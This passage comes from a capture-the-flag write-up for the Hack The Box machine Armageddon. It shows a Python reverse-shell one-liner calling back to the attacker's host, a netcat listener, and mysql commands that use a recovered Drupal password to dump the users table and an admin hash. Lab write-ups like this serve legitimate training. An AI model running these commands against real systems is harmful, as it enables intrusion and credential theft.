It seems that I found the file contains `drupaluser`'s password : `CQHEy@9M*m23gBVj`
To use this credential to `mysql`, we need to open a normal valid shell.

Target : 
```bash
armageddon.htb>> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",9000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

Listener : 
```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.233] 60816
bash: no job control in this shell
bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

Due to the issues of the shell, it's not easy to obtain an interactive mysql shell.
So I ran sql query at once separately.

```bash
bash-4.2$ mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "show databases;"
mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "show databases;"
Database
information_schema
drupal
mysql
performance_schema


bash-4.2$ mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "use drupal; show tables;"
<er -pCQHEy@9M*m23gBVj -e "use drupal; show tables;"                         
Tables_in_drupal
actions
authmap
batch
block
block_custom
block_node_type
<SNIP>
taxonomy_term_hierarchy
taxonomy_vocabulary
url_alias
users
users_roles
variable
watchdog


bash-4.2$ mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "use drupal; select * from users;"
<er -pCQHEy@9M*m23gBVj -e "use drupal; select * from                  users;"
uid     name    pass    mail    theme   signature       signature_format     created access  login   status  timezone        language    picture  init    data
0                                               NULL    0       0   00       NULL            0               NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt      admin@armageddon.eu                     filtered_html        1606998756      1607077194      1607076276      1   Europe/London            0       admin@armageddon.eu     a:1:{s:7:"overlay";i:1;}



```